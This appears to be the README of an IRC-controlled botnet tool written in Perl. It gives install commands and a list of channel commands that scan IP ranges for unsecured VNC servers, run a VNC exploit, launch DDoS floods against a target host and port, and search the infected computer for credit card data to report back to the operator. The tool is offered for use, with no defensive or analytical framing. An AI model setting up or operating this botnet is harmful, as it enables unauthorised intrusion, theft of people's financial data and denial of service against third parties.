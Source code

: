 This code is an IRC BOT that can connect to an IRC server with SSL
The main purpose of this bot is to scan for Open/Unsecured VNC servers.
The bot can also search for credit card informations in the computer that the bot is running.
There is also a DDoS module made in Python, for taking out the target from the network.


--- How to install ---

# git clone https://github.com/independentcod/PerlIRCSSL_VNCbypass.git
# cd PerlIRCSSL_VNCbypass
# chmod +x ./*
(if using Debian, Kali or Ubuntu) 
# ./debian-installer.sh
(elseif running CentOS)
# ./centos-installer.sh

Follow the step-by-step installation and you are done.

--- COMMANDS ---
The commands can be done via PRIVATE MESSAGE and CHANNEL also.

@.scan 192.168.0.0-192.168.255.255 <= this will scan 192.168.0.0/16 CIDR
@.format <= This needs to be done before each @.exploit
@.exploit <= This runs the VNC exploit and reports the working VNCs to the channel
@.stopexploit <= This kills the exploit run
@.ddos 127.0.0.1 8080 n 10000 1000 <= this will ddos 127.0.0.1 on port 8080 tcp with 10000 packets in size with 1000 threads
@.ddos.stop <= This kills the running ddos
@.ccplz <= This will scan computer for credit card info and report in the channel.
@.ping <= mehhh

---NOTE---

In order for bot to work you need to be operator in the channel,
it also must be registered with services.
YOU MUST autovoice your bots else you will not get any output in the server.

